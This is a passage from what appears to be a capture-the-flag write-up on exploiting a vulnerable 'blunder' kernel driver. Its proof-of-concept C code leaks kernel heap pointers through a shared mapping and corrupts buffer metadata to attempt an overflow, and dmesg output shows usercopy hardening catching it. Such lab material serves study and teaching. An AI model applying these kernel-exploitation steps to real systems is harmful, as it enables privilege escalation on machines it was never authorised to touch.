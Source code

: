 ```cpp
		.data_size = data_size,
		.fds = fds,
		.num_fds = num_fds,
	};
	return ioctl(g_fd, IOCTL_BLUNDER_SEND_MSG, &umsg);
}

int main() {
	g_fd = open("/dev/blunder", O_RDWR);
	g_p = mmap(NULL, 0x1000, PROT_READ, MAP_SHARED, g_fd, 0);

	char data[0x10];
	send_blunder_message(data, sizeof(data), NULL, 0);
	dump(g_p, 0x60);
}
```
{: file="poc.c" }

```console
vagrant@ubuntu-jammy:/vagrant$ ./poc
ffff9272c50fb040 ffff9272c3a5fd48 0000000000000000 0000000000000010 0000000000000010 0000000000000000
0000000000000000 0000000000000000 ffff9272c3a5fd48 ffff9272c50fb000 0000000000000001 0000000000000f90
```

When we send a message, the first blunder_buffer is splitted. Here we are leaking the linked list pointers of both buffers. The first pointer points to the second buffer, the last one points to the first one, and the two others point to the list head in `blunder_proc`. Now, let's try to modify the buffer and do an overflow. For example, we could set the first buffer at the beginning of the mapping as free, and change its size to 0x2000.

```cpp
[...]

mprotect(g_p, 0x1000, PROT_READ|PROT_WRITE);
struct blunder_buffer* buf = g_p;
buf->free = 1;
buf->buffer_size = 0x2000;

char* too_big_data = malloc(0x2000);
send_blunder_message(too_big_data, 0x2000, NULL, 0);
```
{: file="poc.c" }
```console
vagrant@ubuntu-jammy:/vagrant$ ./test
[...]
Segmentation fault
```

Hmm? Did I fail at coding C once more? Let's take a look at dmesg:

```console
vagrant@ubuntu-jammy:/vagrant$ sudo dmesg
[...]
[ 135.345109] usercopy: Kernel memory overwrite attempt detected to SLUB object
'kmalloc-4k' (offset 48, size 8192)!
[ 135.349562] ------------[ cut here ]------------
[ 135.351382] kernel BUG at mm/usercopy.c:99!
[ 135.353388] invalid opcode: 0000 [#2] SMP PTI
[ 135.355096] CPU: 0 PID: 1366 Comm: test Tainted: G      D    OE     5.15.0-53
[ 135.357718] Hardware name: innotek GmbH VirtualBox/VirtualBox, BIOS VirtualBo
[ 135.360335] RIP: 0010:usercopy_abort+0x7b/0x7d
[...]
[ 135.383391] Call Trace:
[ 135.384114]  <TASK>
[ 135.384785]  __check_heap_object+0x174/0x1b0
```